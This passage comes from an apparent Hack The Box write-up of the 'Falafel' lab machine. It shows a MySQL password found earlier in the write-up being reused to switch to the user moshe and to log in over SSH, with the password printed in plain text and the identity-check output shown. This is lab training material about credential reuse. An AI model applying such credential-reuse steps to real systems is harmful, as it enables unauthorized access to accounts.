 Since the username `moshe` is same with `mysql` credential we found earlier, I tried `su` to `moshe` user, and it worked.

```bash
www-data@falafel:/home$ su moshe
su moshe
Password: falafelIsReallyTasty

setterm: $TERM is not defined.
moshe@falafel:/home$ id
id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
```

I can open a same shell using `ssh`.

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ ssh moshe@10.10.10.73
moshe@10.10.10.73's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Expanded Security Maintenance for Infrastructure is not enabled.

159 updates can be applied immediately.
51 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Mar  7 11:59:59 2025 from 10.10.14.4
$ id  
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
$ whoami
moshe
```



# Shell as `???`

### Enumeration
